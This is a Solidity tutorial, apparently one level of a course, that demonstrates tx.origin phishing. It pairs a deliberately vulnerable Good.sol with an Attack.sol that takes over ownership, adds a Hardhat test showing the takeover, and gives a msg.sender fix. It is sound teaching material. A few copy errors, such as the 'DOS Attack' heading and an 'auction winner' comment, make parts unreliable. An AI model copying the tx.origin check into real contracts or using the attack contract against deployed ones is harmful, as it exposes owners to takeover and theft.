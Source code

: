 # Attack with tx.origin

tx.origin is a global variable which returns the address that sent the transaction, we will learn how incorrect use of tx.origin could lead to security vulnerabilities in smart contracts

Lets goo 🚀


## What is tx.origin?

`tx.origin` is a global variable which returns the address of the account which sent the transaction. Now you might be wondering then what is `msg.sender` 🤔. The difference is that `tx.origin` refers to the original external account(which is the user) that started the transaction and `msg.sender` is the immediate account that called the function and it can be an external account or another contract calling the function.


## DOS Attack on a smart contract

### What will happen?

There will be two smart contracts - `Good.sol` and `Attack.sol`. `Good.sol`. Initially the owner of `Good.sol` will be a good user. Using the attack function `Attack.sol` will be able to change the owner of `Good.sol` to iteself


### Build

Lets build an example where you can experience how the the attack happens.

- To setup a Hardhat project, Open up a terminal and execute these commands

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a hardhat project ready to go!

If you are not on mac, please do this extra step and install these libraries as well :)

```bash
npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
```

and press `enter` for all the questions.

Now  create a contract named `Attack.sol` within the `contracts` directory and write thee following lines of code

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./Good.sol";


contract Attack {
    Good public good;
    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public {
        good.setOwner(address(this));
    }
}
```

After creating, `Attack.sol` in the same `contracts` directory create a new file `Good.sol`

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;


contract Good  {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function setOwner(address newOwner) public {
        require(tx.origin == owner, "Not owner" );
        owner = newOwner;
    }
}
```


Now lets try immitating the attack using a sample test, create a new file under `test` folder named `attack.js` and add the following lines of code to it

```javascript
const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");

describe("Attack", function () {
  it("Attack.sol will be able to change the owner of Good.sol", async function () {
    // Get one address
    const [_, addr1] = await ethers.getSigners();

    // Deploy the good contract
    const goodContract = await ethers.getContractFactory("Good");
    const _goodContract = await goodContract.connect(addr1).deploy();
    await _goodContract.deployed();
    console.log("Good Contract's Address:", _goodContract.address);

    // Deploy the Attack contract
    const attackContract = await ethers.getContractFactory("Attack");
    const _attackContract = await attackContract.deploy(_goodContract.address);
    await _attackContract.deployed();
    console.log("Attack Contract's Address", _attackContract.address);

    // Now lets trying making addr3 teh current winner of the auction
    let tx = await _attackContract.connect(addr1).attack();
    await tx.wait();

    // Now lets check if the current owner of Good.sol is actually Attack.sol
    expect(await _goodContract.owner()).to.equal(_attackContract.address);
  });
});
```

The attack will happen as follows, initially addr1 will deploy `Good.sol` and will be the owner but the attacker will somehow fool the user who has the private key of addr1 to call the `attack` function with `Attack.sol`. 

When the user calls `attack` function with `addr1`,  `tx.origin` is set to `addr1`. `attack` function further calls `setOwner` function of `Good.sol` which first checks if `tx.origin` is indeed the owner which is `true` because the original transaction was indeed called by `addr1`. After verifying the owner, it sets the owner to `Attack.sol` 

And thus attacker is successfully able to change the owner of `Good.sol` 🤯

To run the test, in your terminal pointing to the root directory of this level execute the following command

```bash
npx hardhat test
```

When the tests pass, you will notice that the owner of `Good.sol` is now `Attack.sol`

## Prevention

- You should use `msg.sender` instead of `tx.origin` to not let this happen

Example:

```solidity

function setOwner(address newOwner) public {
    require(msg.sender == owner, "Not owner" );
    owner = newOwner;
}

```

Hope you liked this level ❤️, keep building.

WAGMI 🚀


## References
- [Solidity by example](https://solidity-by-example.org/)
